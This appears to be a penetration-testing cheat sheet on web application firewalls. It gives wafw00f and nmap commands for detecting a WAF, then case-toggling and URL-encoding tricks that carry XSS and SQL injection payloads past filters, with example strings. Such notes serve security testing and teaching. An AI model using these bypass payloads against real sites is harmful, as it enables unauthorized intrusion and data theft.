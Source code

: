 {% tabs %}
{% tab title="wafw00f" %}
```bash
wafw00f $target
```
{% endtab %}

{% tab title="nmap" %}
```bash
# detecting the waf
nmap -p$port --script http-waf-detect $target

# fingerprinting the waf
nmap -p$port --script http-waf-fingerprint $target
```
{% endtab %}
{% endtabs %}

## Bypass techniques

### Case Toggling

{% hint style="info" %}
Combine **upper** and **lower case characters** for creating great payloads.
{% endhint %}

#### **Examples**

```
# bypassed 
<ScrIpT>confirm()</sCRiPt>
sELeCt * fRoM * wHerE OWNER = 'NAME_OF_DB'

# url example
http://example.com/index.php?page_id=-1 UnIoN SeLeCT 1,2,3,4
```

### **URL Encoding**

{% hint style="info" %}
* **Encode** normal payloads with **%** encoding/URL encoding.
* You can use **Burp**. It has an encoder/decoder tool.
{% endhint %}

#### Examples

```javascript
# blocked by waf
<Svg/x=">"/OnLoAD=confirm()//
# bypassed
%3CSvg%2Fx%3D%22%3E%22%2FOnLoAD%3Dconfirm%28%29%2F%2F

# blocked by waf
UniOn(SeLeCt 1,2,3,4,5,6,7,8,9,10)
# bypassed
UniOn%28SeLeCt+1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%29

# url example
https://example.com/page.php?id=1%252f%252a*/UNION%252f%252a /SELECT
```
